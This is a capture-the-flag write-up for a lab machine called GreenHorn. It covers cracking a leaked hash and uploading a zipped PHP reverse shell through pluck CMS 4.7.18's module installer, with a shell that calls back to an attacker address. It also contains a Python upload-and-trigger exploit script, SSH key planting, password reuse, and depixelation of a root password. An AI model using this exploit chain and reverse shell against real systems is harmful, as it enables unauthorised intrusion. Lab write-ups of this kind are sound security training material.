






## Summary

You start the box by enumerating `Gitea` which runs on port `3000/TCP`. There you will find a public `repository` which contains a `SHA512 hash` which can be cracked. Through `directory busting` you will find an `/admin.php` endpoint on which you can use the cracked password to login to `pluck CMS`. You gain `foothold` by uploading a `zipped reverse shell` as `www-data`. After you did some `basic enumeration` you will find a user called `junior`.  The `privilege escalation` can be done by `password reuse` which also leads you to the `user.txt`. Next you can find a `.pdf` file in the `home directory` of `junior` which describes steps for the use of `Splunk` and also a `pixeled password`. By using the tool `Depix` you can make it readable enough to put together all characters and use it on `root` to obtain `root.txt` and pwn the box.

## Table of Contents

- [Reconnaissance](#Reconnaissance)
    - [Port Scanning](#Port-Scanning)
    - [Enumeration of Port 80/TCP](#Enumeration-of-Port-80TCP)
        - [Directory Busting](#Directory-Busting)
    - [Enumeration of Port 3000/TCP](#Enumeration-of-Port-3000TCP)
- [Cracking the Hash](#Cracking-the-Hash)
- [pluck Admin Panel](#pluck-Admin-Panel)
- [Foothold](#Foothold)
- [Enumeration](#Enumeration)
- [Privilege Escalation to junior](#Privilege-Escalation-to-junior)
    - [Password Reuse](#Password-Reuse)
- [Pivoting](#Pivoting)
- [user.txt](#usertxt)
- [Upgrading Shell](#Upgrading-Shell)
- [Pivoting](#Pivoting)
- [Privilege Escalation to root](#Privilege-Escalation-to-root)
- [root.txt](#roottxt)

## Reconnaissance

### Port Scanning

We started by finding `80/TCP` and `3000/TCP`.

```c
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV 10.129.213.154
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-20 15:04 EDT
Nmap scan report for 10.129.213.154
Host is up (0.018s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 57:d6:92:8a:72:44:84:17:29:eb:5c:c9:63:6a:fe:fd (ECDSA)
|_  256 40:ea:17:b1:b6:c5:3f:42:56:67:4a:3c:ee:75:23:2f (ED25519)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://greenhorn.htb/
3000/tcp open  ppp?
| fingerprint-strings: 
|   GenericLines, Help, RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Cache-Control: max-age=0, private, must-revalidate, no-transform
|     Content-Type: text/html; charset=utf-8
|     Set-Cookie: i_like_gitea=235f11da49e78d4c; Path=/; HttpOnly; SameSite=Lax
|     Set-Cookie: _csrf=T1IS5pG3zCwmNpAltTlBRE0FKIU6MTcyMTUwMjI3ODA5ODE1Njg0MQ; Path=/; Max-Age=86400; HttpOnly; SameSite=Lax
|     X-Frame-Options: SAMEORIGIN
|     Date: Sat, 20 Jul 2024 19:04:38 GMT
|     <!DOCTYPE html>
|     <html lang="en-US" class="theme-auto">
|     <head>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <title>GreenHorn</title>
|     <link rel="manifest" href="
|   HTTPOptions: 
|     HTTP/1.0 405 Method Not Allowed
|     Allow: HEAD
|     Allow: GET
|     Cache-Control: max-age=0, private, must-revalidate, no-transform
|     Set-Cookie: i_like_gitea=997d0ac587ba132c; Path=/; HttpOnly; SameSite=Lax
|     Set-Cookie: _csrf=Bqri2EPAy2Eba3GjBCH72-vEf4Q6MTcyMTUwMjI4MzI1MTAwNjU3MQ; Path=/; Max-Age=86400; HttpOnly; SameSite=Lax
|     X-Frame-Options: SAMEORIGIN
|     Date: Sat, 20 Jul 2024 19:04:43 GMT
|_    Content-Length: 0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3000-TCP:V=7.94SVN%I=7%D=7/20%Time=669C0A45%P=x86_64-pc-linux-gnu%r
SF:(GenericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x
SF:20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Ba
SF:d\x20Request")%r(GetRequest,37DB,"HTTP/1\.0\x20200\x20OK\r\nCache-Contr
SF:ol:\x20max-age=0,\x20private,\x20must-revalidate,\x20no-transform\r\nCo
SF:ntent-Type:\x20text/html;\x20charset=utf-8\r\nSet-Cookie:\x20i_like_git
SF:ea=235f11da49e78d4c;\x20Path=/;\x20HttpOnly;\x20SameSite=Lax\r\nSet-Coo
SF:kie:\x20_csrf=T1IS5pG3zCwmNpAltTlBRE0FKIU6MTcyMTUwMjI3ODA5ODE1Njg0MQ;\x
SF:20Path=/;\x20Max-Age=86400;\x20HttpOnly;\x20SameSite=Lax\r\nX-Frame-Opt
SF:ions:\x20SAMEORIGIN\r\nDate:\x20Sat,\x2020\x20Jul\x202024\x2019:04:38\x
SF:20GMT\r\n\r\n<!DOCTYPE\x20html>\n<html\x20lang=\"en-US\"\x20class=\"the
SF:me-auto\">\n<head>\n\t<meta\x20name=\"viewport\"\x20content=\"width=dev
SF:ice-width,\x20initial-scale=1\">\n\t<title>GreenHorn</title>\n\t<link\x
SF:20rel=\"manifest\"\x20href=\"data:application/json;base64,eyJuYW1lIjoiR
SF:3JlZW5Ib3JuIiwic2hvcnRfbmFtZSI6IkdyZWVuSG9ybiIsInN0YXJ0X3VybCI6Imh0dHA6
SF:Ly9ncmVlbmhvcm4uaHRiOjMwMDAvIiwiaWNvbnMiOlt7InNyYyI6Imh0dHA6Ly9ncmVlbmh
SF:vcm4uaHRiOjMwMDAvYXNzZXRzL2ltZy9sb2dvLnBuZyIsInR5cGUiOiJpbWFnZS9wbmciLC
SF:JzaXplcyI6IjUxMng1MTIifSx7InNyYyI6Imh0dHA6Ly9ncmVlbmhvcm4uaHRiOjMwMDAvY
SF:X")%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20t
SF:ext/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x
SF:20Request")%r(HTTPOptions,197,"HTTP/1\.0\x20405\x20Method\x20Not\x20All
SF:owed\r\nAllow:\x20HEAD\r\nAllow:\x20GET\r\nCache-Control:\x20max-age=0,
SF:\x20private,\x20must-revalidate,\x20no-transform\r\nSet-Cookie:\x20i_li
SF:ke_gitea=997d0ac587ba132c;\x20Path=/;\x20HttpOnly;\x20SameSite=Lax\r\nS
SF:et-Cookie:\x20_csrf=Bqri2EPAy2Eba3GjBCH72-vEf4Q6MTcyMTUwMjI4MzI1MTAwNjU
SF:3MQ;\x20Path=/;\x20Max-Age=86400;\x20HttpOnly;\x20SameSite=Lax\r\nX-Fra
SF:me-Options:\x20SAMEORIGIN\r\nDate:\x20Sat,\x2020\x20Jul\x202024\x2019:0
SF:4:43\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequest,67,"HTTP/1\
SF:.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=
SF:utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 112.42 seconds
```

### Enumeration of Port 80/TCP

Since we got redirected, we added `greenhorn.htb` to our `/etc/hosts` file as usual.

- [http://10.129.213.154/](http://10.129.213.154/)

```c
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.129.213.154  greenhorn.htb
```

- [http://greenhorn.htb/](http://greenhorn.htb/)

A quick check using `whatweb` revealed `pluck 4.7.18`.

```c
┌──(kali㉿kali)-[~]
└─$ whatweb http://greenhorn.htb/
http://greenhorn.htb/ [302 Found] Cookies[PHPSESSID], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.129.213.154], RedirectLocation[http://greenhorn.htb/?file=welcome-to-greenhorn], nginx[1.18.0]
http://greenhorn.htb/?file=welcome-to-greenhorn [200 OK] Cookies[PHPSESSID], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.129.213.154], MetaGenerator[pluck 4.7.18], Pluck-CMS[4.7.18], Title[Welcome to GreenHorn ! - GreenHorn], nginx[1.18.0]
```


#### Directory Busting

We ran some `directory busting` against the box and found `/admin.php` which redirected us a `login page` were a only a `password` was required.

```c
┌──(kali㉿kali)-[~]
└─$ dirsearch -u http://greenhorn.htb

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/kali/reports/http_greenhorn.htb/_24-07-20_15-05-21.txt

Target: http://greenhorn.htb/

[15:05:21] Starting: 
[15:05:23] 200 -   93B  - /+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../
[15:05:23] 200 -   93B  - /+CSCOT+/oem-customization?app=AnyConnect&type=oem&platform=..&resource-type=..&name=%2bCSCOE%2b/portal_inc.lua
[15:05:28] 404 -  564B  - /.css                                             
[15:05:31] 404 -  564B  - /.gif                                             
[15:05:34] 404 -  564B  - /.ico                                             
[15:05:35] 404 -  564B  - /.jpeg                                            
[15:05:35] 404 -  564B  - /.jpg                                             
[15:05:38] 404 -  564B  - /.png                                             
[15:06:01] 404 -  564B  - /adm/style/admin.css                              
[15:06:03] 200 -    4KB - /admin.php                                        
[15:06:15] 404 -  564B  - /admin_my_avatar.png                              
[15:06:39] 404 -  564B  - /bundles/kibana.style.css                         
[15:06:53] 301 -  178B  - /data  ->  http://greenhorn.htb/data/             
[15:06:53] 200 -   48B  - /data/                                            
[15:06:57] 200 -   93B  - /docpicker/common_proxy/http/www.redbooks.ibm.com/Redbooks.nsf/RedbookAbstracts/sg247798.html?Logout&RedirectTo=http://example.com
[15:06:57] 301 -  178B  - /docs  ->  http://greenhorn.htb/docs/             
[15:06:57] 403 -  564B  - /docs/                                            
[15:07:04] 200 -   93B  - /faces/javax.faces.resource/web.xml?ln=..\\WEB-INF
[15:07:04] 200 -   93B  - /faces/javax.faces.resource/web.xml?ln=../WEB-INF
[15:07:04] 404 -  564B  - /favicon.ico                                      
[15:07:06] 403 -  564B  - /files/                                           
[15:07:09] 301 -  178B  - /files  ->  http://greenhorn.htb/files/           
[15:07:16] 404 -  564B  - /IdentityGuardSelfService/images/favicon.ico      
[15:07:17] 301 -  178B  - /images  ->  http://greenhorn.htb/images/         
[15:07:17] 403 -  564B  - /images/                                          
[15:07:20] 200 -    4KB - /install.php                                      
[15:07:21] 200 -    4KB - /install.php?profile=default                      
[15:07:24] 200 -   93B  - /jmx-console/HtmlAdaptor?action=inspectMBean&name=jboss.system:type=ServerInfo
[15:07:29] 200 -    1KB - /login.php                                        
[15:07:30] 404 -  564B  - /logo.gif                                         
[15:07:33] 200 -   93B  - /manager/jmxproxy/?get=java.lang:type=Memory&att=HeapMemoryUsage
[15:07:33] 200 -   93B  - /manager/jmxproxy/?invoke=Catalina%3Atype%3DService&op=findConnectors&ps=
[15:07:58] 200 -   93B  - /plugins/servlet/gadgets/makeRequest?url=https://google.com
[15:08:01] 200 -   93B  - /proxy.stream?origin=https://google.com           
[15:08:04] 200 -    2KB - /README.md                                        
[15:08:04] 200 -   93B  - /remote/fgt_lang?lang=/../../../../////////////////////////bin/sslvpnd
[15:08:04] 200 -   93B  - /remote/fgt_lang?lang=/../../../..//////////dev/cmdb/sslvpn_websession
[15:08:05] 404 -  564B  - /resources/.arch-internal-preview.css             
[15:08:06] 200 -   47B  - /robots.txt                                       
[15:08:16] 404 -  564B  - /skin1_admin.css                                  
[15:08:17] 404 -  997B  - /solr/admin/file/?file=solrconfig.xml             
[15:08:46] 200 -   93B  - /wps/common_proxy/http/www.redbooks.ibm.com/Redbooks.nsf/RedbookAbstracts/sg247798.html?Logout&RedirectTo=http://example.com
[15:08:46] 200 -   93B  - /wps/contenthandler/!ut/p/digest!8skKFbWr_TwcZcvoc9Dn3g/?uri=http://www.redbooks.ibm.com/Redbooks.nsf/RedbookAbstracts/sg247798.html?Logout&RedirectTo=http://example.com
[15:08:46] 200 -   93B  - /wps/proxy/http/www.redbooks.ibm.com/Redbooks.nsf/RedbookAbstracts/sg247798.html?Logout&RedirectTo=http://example.com
[15:08:47] 200 -   93B  - /wps/cmis_proxy/http/www.redbooks.ibm.com/Redbooks.nsf/RedbookAbstracts/sg247798.html?Logout&RedirectTo=http://example.com
[15:08:47] 200 -   93B  - /wps/myproxy/http/www.redbooks.ibm.com/Redbooks.nsf/RedbookAbstracts/sg247798.html?Logout&RedirectTo=http://example.com
                                                                             
Task Completed
```

- [http://greenhorn.htb/admin.php](http://greenhorn.htb/admin.php)



### Enumeration of Port 3000/TCP

Since the `/admin.php` was a dead end for now we moved on with the `enumeration` of port `3000/TCP` on which we found an instance of `Gitea`.

- [http://greenhorn.htb:3000/](http://greenhorn.htb:3000/)

```c
┌──(kali㉿kali)-[~]
└─$  whatweb http://greenhorn.htb:3000/
http://greenhorn.htb:3000/ [200 OK] Cookies[_csrf,i_like_gitea], Country[RESERVED][ZZ], HTML5, HttpOnly[_csrf,i_like_gitea], IP[10.129.213.154], Meta-Author[Gitea - Git with a cup of tea], Open-Graph-Protocol[website], PoweredBy[Gitea], Script, Title[GreenHorn], X-Frame-Options[SAMEORIGIN]
```



There was a `public repository` which we investigated further.




The file `pass.php` contained a `SHA512 hash` which we tried to crack.



```c
|   |
|---|
|`<?php`|
||`$ww = 'd5443aef1b64544f3685bf112f6c405218c573c7279a831b1fe9612e3a4d770486743c5580556c0d838b51749de15530f87fb793afdcc689b6b39024d7790163';`|
||`?>`|
```

## Cracking the Hash

Luckily the hash was already cracked and we received the password from `crackstation.net`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/GreenHorn/files]
└─$ cat hash
d5443aef1b64544f3685bf112f6c405218c573c7279a831b1fe9612e3a4d770486743c5580556c0d838b51749de15530f87fb793afdcc689b6b39024d7790163
```

- [https://crackstation.net/](https://crackstation.net/)

| Password  |
| --------- |
| iloveyou1 |

## pluck Admin Panel

With the password we were able to login on the previously found `admin endpoint`.



After looking around for a few seconds we spotted the option to `manage modules`. This allowed us `uploading` custom modules.


## Foothold

For the `foothold` we simply downloaded a `php reverse shell` of our choice and put it in a `.zip archive` for uploading to `pluck CMS`. 

- [https://raw.githubusercontent.com/ivan-sincek/php-reverse-shell/master/src/reverse/php_reverse_shell.php](https://raw.githubusercontent.com/ivan-sincek/php-reverse-shell/master/src/reverse/php_reverse_shell.php)

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/GreenHorn/files]
└─$ wget https://raw.githubusercontent.com/ivan-sincek/php-reverse-shell/master/src/reverse/php_reverse_shell.php
--2024-07-20 15:22:26--  https://raw.githubusercontent.com/ivan-sincek/php-reverse-shell/master/src/reverse/php_reverse_shell.php
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.109.133, 185.199.108.133, 185.199.111.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.109.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 9403 (9.2K) [text/plain]
Saving to: ‘php_reverse_shell.php’

php_reverse_shell.php                                      100%[========================================================================================================================================>]   9.18K  --.-KB/s    in 0.007s  

2024-07-20 15:22:26 (1.25 MB/s) - ‘php_reverse_shell.php’ saved [9403/9403]
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/GreenHorn/files]
└─$ tail php_reverse_shell.php 
}
echo '<pre>';
// change the host address and/or port number as necessary
$sh = new Shell('10.10.14.38', 9000);
$sh->run();
unset($sh);
// garbage collector requires PHP v5.3.0 or greater
// @gc_collect_cycles();
echo '</pre>';
?>
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/GreenHorn/files]
└─$ zip shell.zip php_reverse_shell.php 
  adding: php_reverse_shell.php (deflated 72%)
```



After we successfully uploaded our `custom module`, we triggered it by accessing the related `URL` (/data/modules/name-of-the-zip-file/filename.php).

```c
http://greenhorn.htb/data/modules/shell/php_reverse_shell.php
```

- [http://greenhorn.htb/data/modules/shell/php_reverse_shell.php](http://greenhorn.htb/data/modules/shell/php_reverse_shell.php)

```c
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 9000
listening on [any] 9000 ...
connect to [10.10.14.38] from (UNKNOWN) [10.129.213.154] 36264
SOCKET: Shell has connected! PID: 2540
```

For convenience `Crow` created a `auto_shell.py` script based on the following exploit.

- [https://github.com/1mirabbas/Pluck_Cms_4.7.18_RCE_Exploit](https://github.com/1mirabbas/Pluck_Cms_4.7.18_RCE_Exploit)

```c
#!/usr/bin/python3

import requests
from requests_toolbelt.multipart.encoder import MultipartEncoder

url = "http://greenhorn.htb"
password = "iloveyou1"
file_path = "/pat/test.zip"

login_url = f"{url}/login.php"
upload_url = f"{url}/admin.php?action=installmodule"
headers = {"Referer": login_url,}
login_payload = {"cont1": password,"bogus": "","submit": "Log in"}

multipart_data = MultipartEncoder(
    fields={
        "sendfile": ("test.zip", open(file_path, "rb"), "application/zip"),
        "submit": "Upload"
    }
)

session = requests.Session()
login_response = session.post(login_url, headers=headers, data=login_payload)


if login_response.status_code == 200:
    print("Login account")

 
    upload_headers = {
        "Referer": upload_url,
        "Content-Type": multipart_data.content_type
    }
    upload_response = session.post(upload_url, headers=upload_headers, data=multipart_data)

    
    if upload_response.status_code == 200:
        print("ZIP file download.")
    else:
        print("ZIP file download error. Response code:", upload_response.status_code)
else:
    print("Login problem. response code:", login_response.status_code)


rce_url=f"{url}/data/modules/test/shell.php"

rce=requests.get(rce_url)

print(rce.text)
```

## Enumeration

First off we performed some `basic enumeration` and found the user `junior`.

```c
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

```c
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
vboxadd:x:998:1::/var/run/vboxadd:/bin/false
git:x:114:120:Git Version Control,,,:/home/git:/bin/bash
mysql:x:115:121:MySQL Server,,,:/nonexistent:/bin/false
junior:x:1000:1000::/home/junior:/bin/bash
_laurel:x:997:997::/var/log/laurel:/bin/false
```

| Username |
| -------- |
| junior   |

## Privilege Escalation to junior

### Password Reuse

By simply going for a `password reuse` approach we `elevated` our `privileges` to `junior`.

```c
su junior
Password: iloveyou1
shell-init: error retrieving current directory: getcwd: cannot access parent directories: No such file or directory
id
uid=1000(junior) gid=1000(junior) groups=1000(junior)
```

## Pivoting

In his `home directory` we grabbed the `user.txt` and found an interesting looking file called `Using OpenVAS.pdf`.

```c
pwd
/home/junior
ls -la
total 76
drwxr-xr-x 3 junior junior  4096 Jun 20 06:36 .
drwxr-xr-x 4 root   root    4096 Jun 20 06:36 ..
lrwxrwxrwx 1 junior junior     9 Jun 11 14:38 .bash_history -> /dev/null
drwx------ 2 junior junior  4096 Jun 20 06:36 .cache
-rw-r----- 1 root   junior    33 Jul 20 19:04 user.txt
-rw-r----- 1 root   junior 61367 Jun 11 14:39 Using OpenVAS.pdf
```

## user.txt

```c
cat user.txt
d46eaf5333ebc23f3d4056525611d6e5
```

## Upgrading Shell

To proceed further in a more practical way we upgraded our shell by adding our `SSH Public Key` to the `authorized_keys` file of `junior` which we created.

```c
mkdir .ssh
cd .ssh
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAACAQDLe30SIt4ehPSdr4JIuZdQRoWmPo3p6txvjK9OcYC9wTvyDeI2emq63QE+YkqatnXJfLJhgEPXRzXltVrO6KGE3PMoyarwHC6NvDx9Fsjl2oSs0/XqUuSz+nkXWmjUgqP4I7SQar7n6lPBwQBUqnQvhrAZQYlDs4ibsiho0c+VnjJu385eSl8AshVZzf/mMkgvMcs2+NLGpbxbsaErLkBikKNA2OdN03SNLcdReIyLYaYMO2c6IJxK3TnPKvugiZIObYR5Wnvi8ZacqR4DqdfGu4PO8Mw+lyqKRRQNLB5rCK1R47HnRvpnTniR+RA9lT5zh+Wt1F6IBJYow7+zUQqk2+KEMF3Bi4QfYy2nBN7tq7dQMUC5kwOuF7JEnzbBCFAQuLy4TMzVa7LMO6tM+sKHWa9oXt2elvqo5kf4OJL4t2Q04797+3T2tdxDBptLTHG9YtLX+nMWTMIZAE4ia8m/4CJblFmoq2V9F01JeI6cphikXjLk+8yms3QQnPRGJZWo1bFcFvVpyvffhjxYoumWIryOkWs4Hajo+IfOiVrHtpzGSsOUw475yPTG9K6Y1NIxegv62HfzK3+jpMmSrz7wU6qDtEh724XQqaG2NWum3EcrZMJokb8YBeH8SLJtczcfMo4AWB5NXncpZC4+JFu+aT4QY7xrFANsDcNUbsPmqw==" > authorized_keys
```

```c
┌──(kali㉿kali)-[~]
└─$ ssh junior@greenhorn.htb
The authenticity of host 'greenhorn.htb (10.129.213.154)' can't be established.
ED25519 key fingerprint is SHA256:FrgpM50adTncJAsWACDugfF7duPzn9d6RzjZZFHNtLo.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'greenhorn.htb' (ED25519) to the list of known hosts.
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-113-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Thu Jul 18 12:55:06 PM UTC 2024

  System load:           0.1
  Usage of /:            56.7% of 3.45GB
  Memory usage:          13%
  Swap usage:            0%
  Processes:             255
  Users logged in:       1
  IPv4 address for eth0: 10.10.11.25
  IPv6 address for eth0: dead:beef::250:56ff:feb9:ce54


This system is built by the Bento project by Chef Software
More information can be found at https://github.com/chef/bento
junior@greenhorn:~$
```

## Pivoting

Since `junior` had no special privileges we downloaded the `.pdf` file for further investigation.

```c
junior@greenhorn:~$ id
uid=1000(junior) gid=1000(junior) groups=1000(junior)
```

```c
junior@greenhorn:~$ sudo -l
[sudo] password for junior: 
Sorry, user junior may not run sudo on greenhorn.
```

```c
junior@greenhorn:~$ ls -la
total 135180
drwxr-xr-x 5 junior junior      4096 Jul 20 19:55  .
drwxr-xr-x 4 root   root        4096 Jun 20 06:36  ..
lrwxrwxrwx 1 junior junior         9 Jun 11 14:38  .bash_history -> /dev/null
drwx------ 2 junior junior      4096 Jun 20 06:36  .cache
-rwxrwxr-x 1 junior junior 138332624 Jul 20 19:55  gitea
drwx------ 3 junior junior      4096 Jul 20 19:52  .gnupg
drwxrwxr-x 2 junior junior      4096 Jul 20 19:34  .ssh
-rw-r----- 1 root   junior        33 Jul 20 19:04  user.txt
-rw-r----- 1 root   junior     61367 Jun 11 14:39 'Using OpenVAS.pdf'
```

## Privilege Escalation to root

The file contained a `pixeled` password which we knew could be `depixeled` by using already available tools like `Depix`.


We made a `right click` on the `pixeled password` and saved it to a file. Then we cloned `Depix` and `depixeled` the `pixeled` password in the `.png` file using the examples of the repository.

- [https://github.com/spipm/Depix](https://github.com/spipm/Depix)

```c
┌──(kali㉿kali)-[/media/…/Machines/GreenHorn/files/Depix]
└─$ python3 depix.py -p ../passwd.png -s images/searchimages/debruinseq_notepad_Windows10_closeAndSpaced.png
2024-07-20 16:25:31,137 - Loading pixelated image from ../passwd.png
2024-07-20 16:25:31,154 - Loading search image from images/searchimages/debruinseq_notepad_Windows10_closeAndSpaced.png
2024-07-20 16:25:32,205 - Finding color rectangles from pixelated space
2024-07-20 16:25:32,207 - Found 252 same color rectangles
2024-07-20 16:25:32,207 - 190 rectangles left after moot filter
2024-07-20 16:25:32,207 - Found 1 different rectangle sizes
2024-07-20 16:25:32,207 - Finding matches in search image
2024-07-20 16:25:32,207 - Scanning 190 blocks with size (5, 5)
2024-07-20 16:25:32,257 - Scanning in searchImage: 0/1674
2024-07-20 16:26:57,114 - Removing blocks with no matches
2024-07-20 16:26:57,114 - Splitting single matches and multiple matches
2024-07-20 16:26:57,119 - [16 straight matches | 174 multiple matches]
2024-07-20 16:26:57,119 - Trying geometrical matches on single-match squares
2024-07-20 16:26:57,634 - [29 straight matches | 161 multiple matches]
2024-07-20 16:26:57,634 - Trying another pass on geometrical matches
2024-07-20 16:26:58,090 - [41 straight matches | 149 multiple matches]
2024-07-20 16:26:58,090 - Writing single match results to output
2024-07-20 16:26:58,091 - Writing average results for multiple matches to output
2024-07-20 16:27:02,546 - Saving output image to: output.png
```


| Password                                         |
| ------------------------------------------------ |
| sidefromsidetheothersidesidefromsidetheotherside |

This was the last step to gain access as `root`.

```c
junior@greenhorn:~$ su
Password: 
root@greenhorn:/home/junior#
```

## root.txt

```c
root@greenhorn:~# cat root.txt
fdf4ea674f845ffe76e519d19d78ae07
```
